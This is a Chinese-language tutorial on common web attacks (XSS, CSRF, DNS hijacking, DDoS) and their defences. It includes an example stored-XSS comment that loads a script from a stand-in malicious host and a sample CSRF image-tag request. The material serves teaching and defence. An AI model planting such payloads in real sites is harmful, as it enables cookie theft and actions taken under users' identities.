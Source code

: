 XSS 和 CSRF 是 web 安全领域，最常见的攻击方式。

## 1. XSS（Cross Site Script）跨站脚本攻击
> `XSS`攻击是指攻击者在网页上注入攻击脚本，从而获取用户的隐私数据（如：cookie、session等）。本质是恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。
### 如何攻击
`XSS`攻击主要分为三种：存储型、反射型、DOM型

#### 存储型
攻击步骤：    
1. 攻击者将恶意代码提交到目标网站的数据库中；
2. 用户打开目标网站时，服务端从数据库中取出恶意代码，拼接在`HTML`中返回给浏览器；
3. 浏览器接收到含有恶意代码的`HTML`并执行；
4. 恶意代码窃取用户数据并发送给攻击者，或者冒充用户调用目标网站的接口，对目标网站执行指定的攻击。

这种攻击常见于带有用户保存数据的网站，这样攻击者才有机会将恶意代码提交到数据库，如论坛发帖、商品评论、用户私信等。

eg. 发表恶意评论，被存入数据库：

        质量非常不错！<script src="danger.com/spread.js"></script>

当页面读取并展示该评论时，就会加载并执行恶意代码。

#### 反射型
攻击步骤：    
1. 攻击者构造出带有恶意代码的`URL`；
2. 用户打开带有恶意代码的`URL`时，服务端从`URL`中取出恶意代码，拼接在`HTML`中返回给浏览器；
3. 浏览器接收到含有恶意代码的`HTML`并执行；
4. 恶意代码窃取用户数据并发送给攻击者，或者冒充用户调用目标网站的接口，对目标网站执行指定的攻击。

这种攻击常见于通过`URL`传递参数的功能，如网站搜索、跳转等。   
与存储型的区别在于：存储型的恶意代码在数据库中，而反射型的恶意代码在`URL`中。

#### DOM型
攻击步骤：    
1. 攻击者构造出带有恶意代码的`URL`；
2. 用户打开带有恶意代码的`URL`时，浏览器从`URL`中取出恶意代码，并执行；
3. 恶意代码窃取用户数据并发送给攻击者，或者冒充用户调用目标网站的接口，对目标网站执行指定的攻击。

这种攻击也是常见于通过`URL`传递参数的功能，如网站搜索、跳转等。   
与存储型、反射型的区别在于：`DOM`型攻击是由浏览器取出恶意代码而非服务端取出，所以属于前端自身的安全漏洞，而另外两种属于服务端安全漏洞。

### 如何防范
1. 前端输入校验
  针对存储型，表单提交前进行校验，例如将`<script>`中的'<''>'转译成对应的ASCII码、使用xss校验模块`js-xss`等。
2. 服务端输入过滤
  由于攻击者可以通过直接构造请求，绕过前端过滤，所以，输入过滤通常放在服务端进行。
3. 防止劫持cookie
  服务端在响应报文的 Set-Cookie 字段中，添加 HttpOnly ，可禁止 js 获取cookie，从而阻止恶意代码劫持cookie。

## 2. CSRF（Cross Site Request Forgery）跨站请求伪造
> 攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

### 如何攻击
攻击步骤：    
1. 用户登录`a.com`，并保留了登录凭证（`cookie`）；
2. 攻击者引诱用户访问`b.com`；
3. `b.com`向`a.com`服务器发送一个请求：`a.com/act=xx`，浏览器会默认携带`a.com`的`cookie`；
4. `a.com`服务端收到请求后，通过`cookie`验证，误以为用户身份有效；
5. 攻击者冒用用户身份，成功的在目标网站执行了恶意代码。   
（CSRF通常是为了对目标服务器进行数据更新(例如转账)等操作，假设a.com网站用get请求实现数据更新，那么攻击者只需发送类似`<img src="a.com/act=xx"/>`这样的get请求即可实现攻击，而a.com网站使用post请求实现数据更新，就会增加攻击难度(需要模拟表单提交)，这也说明了我们应该选用正确的请求方式实现相应http请求。另一方面，使用post请求实现数据更新，也为Cookie中设置SameSite字段防范CSRF攻击提供了可能）

### 如何防范
通过上述步骤可以发现`CSRF`的特点：    
1. 攻击发生在第三方域名；
2. 攻击者没有获取用户的`cookie`信息，而只是冒用。

针对这两个特点，可以制定防范措施：    
1. 阻止不明域名的访问：
  * 同源检查(请求头中添加Origin字段 —— 注意 Origin 与 Referer，前者仅包含协议和域名，而后者是完整的 URI 存在安全隐患)；
  * 利用Cookie中的SameSite字段限制第三方页面访问目标网站时携带Cookie，它有三个值：Strict-所有形式访问都不允许，Lax-仅部分Get形式请求允许（包括链接跳转、css加载请求、GET表单提交），None-关闭此限制。（因为通常数据更新操作都是post请求实现，所以仅允许get请求能拿到cookie，就可以避免伪造post请求实现攻击）
2. 提交请求时附加本域名下才能获得的信息：token验证。(token存在localstorage中，由于同源限制，只有在本域名下才能获取)

## 3. DNS劫持
> URL请求的第一步是DNS解析，获得ip地址后向对应服务器发起请求。而DNS劫持就是指在DNS解析过程中，使浏览器获取到错误的ip地址，从而诱导用户访问恶意网站，窃取用户信息。

要了解DNS劫持发生在哪些环节，就要清楚DNS解析经历哪些步骤：
1. 查找浏览器DNS缓存；
2. 查找操作系统DNS缓存、host配置；
3. 查找路由器DNS缓存；
4. 查找运营商本地服务器DNS缓存；
5. 查找根域名——>顶级域名——>次级域名——>主机名，得到完整IP。（www.baidu.com.root）

### 如何劫持
1. 本地DNS劫持：使用户电脑感染木马病毒或安装恶意软件后，恶意修改浏览器DNS缓存、操作系统DNS缓存、host配置等；
2. 路由器DNS劫持：很多用户使用路由器的默认密码，攻击者可以侵入到路由管理员账号中，修改路由器的DNS缓存、默认DNS配置等；
3. 攻击DNS服务器

### 如何防范
1. 开启防火墙、安装杀毒软件；
2. 增加路由器密码复杂度；
3. 用HTTP DNS 代替 Local DNS，即让DNS查询绕过查找浏览器、操作系统、路由器等本地缓存。

## 4. DDoS攻击
> 称是 Distributed Denial of Service，翻译成中文就是分布式拒绝服务。是指对目标网站在较短的时间内发起大量请求，大规模消耗目标网站的主机资源，让它无法正常服务。

### 如何防范
1. CDN加速，利用CDN较少直接访问服务器的请求数量；
2. 设置黑名单，拒绝特定用户的访问；
3. DDoS清洗，拒绝响应特定用户的请求（允许访问，但不响应）。

## 5. 其它常见网络安全
### 网络劫持攻击
攻击方式：攻击者利用代理服务器、路由器等中间件，截取http请求中的用户信息。    
防范措施：Http请求加密。

### 控制台注入代码
攻击方式：诱导用户在控制台输入相关代码，从而获取用户cookie等信息。    
防范措施：控制台友好提示用户不要在此操作。